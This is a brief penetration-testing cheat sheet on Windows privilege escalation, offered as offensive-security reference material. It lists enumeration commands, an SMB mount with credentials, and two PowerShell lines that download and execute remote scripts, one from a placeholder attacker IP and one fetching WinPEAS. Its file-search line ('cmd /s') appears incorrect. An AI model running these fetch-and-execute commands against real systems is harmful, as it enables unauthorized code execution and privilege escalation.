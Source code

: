 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Windows Privilege Escalation

## System Enumeration

### List Users

```batch
net user
```

### User Privileges

```batch
whoami /priv
```

### Search Files

{% hint style="info" %}
If you dont know the full path of the file or even the extension, you can use: `*<FILE>*`
{% endhint %}

```batch
cmd /s <FILE>
```

### List Recursive Directories (PowerShell)

```powershell
ls . -Recurse -Force -Name -Filter "<filter>" | foreach { ls -for $_ }
```

### Add SMB share to network drives

```batch
net use z: \\<ip>\<share> /user:<user> <pass>
```

### Execute Remote PowerShell Script

```powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip>/script.ps1')
```

### [WinPEAS](https://github.com/peass-ng/PEASS-ng)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
